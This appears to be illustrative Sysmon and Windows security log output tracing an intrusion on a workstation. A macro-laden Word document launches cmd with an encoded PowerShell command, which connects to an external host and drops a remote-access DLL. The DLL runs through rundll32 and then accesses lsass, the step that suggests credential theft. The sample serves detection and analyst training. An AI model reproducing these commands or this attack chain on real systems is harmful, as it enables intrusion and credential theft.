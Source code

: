 Here is some example of logs of a Windows workstation with centralized logging (Sysmon + EDR)

<pre>[2025-07-24 13:02:15] Microsoft-Windows-Security-Auditing
Event ID: 4624 (Successful Logon)
Security ID: S-1-5-21-334565123-2489635241-879453123-1120
Account Name: jsmith
Logon Type: 2 (Interactive)
Logon Process: User32
Workstation Name: WKS-204
Source Network Address: 10.0.5.44

[2025-07-24 13:03:02] Microsoft-Windows-Sysmon
Event ID: 1 (Process Create)
Image: C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
CommandLine: "C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE" "invoice_672.docm"
ParentImage: C:\Windows\explorer.exe
User: DOMAIN\jsmith

[2025-07-24 13:03:08] Microsoft-Windows-Sysmon
Event ID: 1 (Process Create)
Image: C:\Windows\System32\cmd.exe
CommandLine: cmd.exe /c powershell.exe -enc UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcw...
ParentImage: C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
User: DOMAIN\jsmith

[2025-07-24 13:03:09] Microsoft-Windows-Sysmon
Event ID: 3 (Network Connection)
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Protocol: tcp
Initiated: true
Source IP: 10.0.5.44
Source Port: 49722
Destination IP: 103.145.67.233
Destination Hostname: updates-checker[.]co
Destination Port: 443

[2025-07-24 13:03:10] Microsoft-Windows-Sysmon
Event ID: 11 (File Create)
TargetFilename: C:\Users\jsmith\AppData\Local\Temp\rat_payload.dll
CreationUtcTime: 2025-07-24 13:03:10.430

[2025-07-24 13:03:12] Microsoft-Windows-Sysmon
Event ID: 1 (Process Create)
Image: C:\Windows\System32\rundll32.exe
CommandLine: rundll32.exe C:\Users\jsmith\AppData\Local\Temp\rat_payload.dll,Install
ParentImage: C:\Windows\System32\cmd.exe
User: DOMAIN\jsmith

[2025-07-24 13:03:17] Microsoft-Windows-Sysmon
Event ID: 10 (Process Access)
SourceImage: C:\Windows\System32\rundll32.exe
TargetImage: C:\Windows\System32\lsass.exe
GrantedAccess: 0x1010
CallTrace: C:\Windows\System32\rundll32.exe+0x1234
